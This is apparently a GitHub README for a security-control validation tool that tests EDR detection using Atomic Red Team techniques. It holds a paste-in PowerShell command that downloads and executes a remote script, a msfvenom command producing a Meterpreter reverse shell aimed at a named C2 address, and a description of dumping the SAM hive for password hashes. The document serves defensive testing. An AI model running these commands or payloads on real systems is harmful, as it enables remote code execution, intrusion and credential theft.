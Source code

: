 # ResponseValidation
```
                                                                                 @@@      
                                                                              @@@ @ @@@@  
                                                                            @@@ @ @@@ @   
                                                                         @@@@ @@@@ @  @@@ 
                                                                      /@@@ @@@@  @@@@@ @  
                                                                   #@@. @@@@ @@@@@ &@     
                                                                @@@@@@@@  @@@   @@@@@@&   
                                                             @@@@@@@@@@@@  @@@@@@ @@      
                                                          @@@@@@@@@@@@@@@@   @@@@@@       
                                                       @@@@@@@@@@@@@ %@@@@@   @@          
                                   @@               @@@@    @@@@@@@@   @@@@@@@.@          
                              @@@@ @@@@          @@@@       @@@@@@@@      @@              
                           @@@     @@@@@@      @@@@       @@@@@@@@@@@@  @                 
                        @@@@            @@@   @@@       @@@@@@@@@@@@@@ @                  
                        @@               @@@ @@@       @@@@@@@  @@@@                      
                         @@              @@@@@@      @@@@@@@@@@  @@                       
                          @@              @@@@      @@@@@@@@@@@@                          
                           @(          /@@@        @@@@@    @                             
                           @@       @@@@          @@@@@@@@ @                              
                           @ @@@@@@@#             /@@@@@@@                                
                         @@@@@@@                    @@@@ @                                
                       @  @@@@@                       @@@@                                
                     @  @@@@             @@/            @@@@@@                            
                    @ %@@ @@  @@@@@@@@,   @@         ,@@@@@@@@@@@@@@@@@@@@@@@@@@@         
                     @ @@         @@@@@  @@@@@@@@@@@  ,@@@@@@@@@@@@,@@% ,@@@@@@@          
                      @           @@@@@ @@                  &@@& @@  @@@@@@               
                                 @@@@@@@*                                                 
                                @@@ @@                                                    
                             @@   @                                                       
                         @@ @@@@@                                                         
                             @        
```

# DO NOT RUN WITHOUT EXPRESSED CONSENT FROM TRIFIDENT
To execute, simply run the following command from a machine with PowerShell installed (Windows / MacOS)
```
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/TRIFIDENT/ResponseValidation/main/RunTests.ps1").Content
```

## What does this Tool Do?
Runs a series of validation checks on the local machine to serve as proof-points for our assessment and are based on the identification of implemented security controls, where we attempt to validate these controls are working as intended. This is not a penetration test, rather a validation that security controls are working properly, and where possible, to test incident communications between providers and response times.

The Following test will be performed:

## Validate EDR Detection and Response:
### T1204.002 : User Execution: Malicious File

> Defanged malicious .lnk file
> Generated by RedCanary as part of the Atomic Red Team framework. All code available for review on their Github Page [Link].  Trifident has reviewed the resulting putty and confirmed it is non-malicious.
> 	
> LNK files are based on the Shell Link Binary file format, also known as Windows shortcuts. But what seems a relatively simple ability to execute other binaries on the system can inflict great harm when abused by threat actors. Microsoft’s decision to block macros by default for files downloaded from the internet in Office applications provoked malware developers to shift to other techniques. 
> 
> This test downloads a crafted .lnk file from github, and then attempts to execute it. When executed, the .lnk file attempts to download a clean copy of Putty (a windows based ssh client) as “a.exe” and attempts to execute it. 
> 
> Expected Outcome: EDR detects, alerts, and quarantines the LNK file, however Putty still executes.


### T1204.002 : User Execution: Malicious File
> Defanged Malware: Meterpreter
>  
> Generated by Trifident, using the following command: 
> msfvenom -p windows/meterpreter_reverse_http LHOST=172.174.245.183 LPORT=9191 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
> 
> Meterpreter is a Metasploit attack payload that provides an interactive shell to the attacker from which to explore the target machine and execute code. Meterpreter is deployed using in-memory DLL injection. As a result, Meterpreter resides entirely in memory and writes nothing to disk. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.
> 
> Shell.exe attempts to shovel a meterpreter shell from the host machine to a Trifident owned C2 server over HTTP (port 9191) located in Azure at the IP address of 172.174.245.183.  The C2 meterpreter listener is disabled by default on our C2 server. If execution succeeds, the C2 channel will not be established. If you would like to validate the C2 server is non-operational prior to execution, you can perform the following test:
> nmap -p 9191 172.174.245.183
> *Note: Other ports may be open as this C2 server is used for multiple engagements.
> 
> Expected Outcome: SentinelOne detects, alerts, and quarantines shell.exe without execution.


### T1003.002 : OS Credential Dumping: Security Account Manager
> This test uses the LOLbin “reg” (more info) to attempt to dump the SAM registry hive to a temp file location. This technique is known by attackers to retrieve password hashes and key material. 
> 
> Expected Outcome: SentinelOne detects, alerts, and prevents execution.

### Capture notification evidence
> The script will note the time each test was executed. Please take screenshots of any emails, phone calls, text messages, or any other contact method used by the MSSP vendor. 
> For any tickets that are opened, assigned, or you are notified of, please respond indicating that this was as a result of ongoing security testing, and that the ticket can be closed. 

### Clean Up
> All files downloaded, installed, or created by this script will be automatically removed at completion


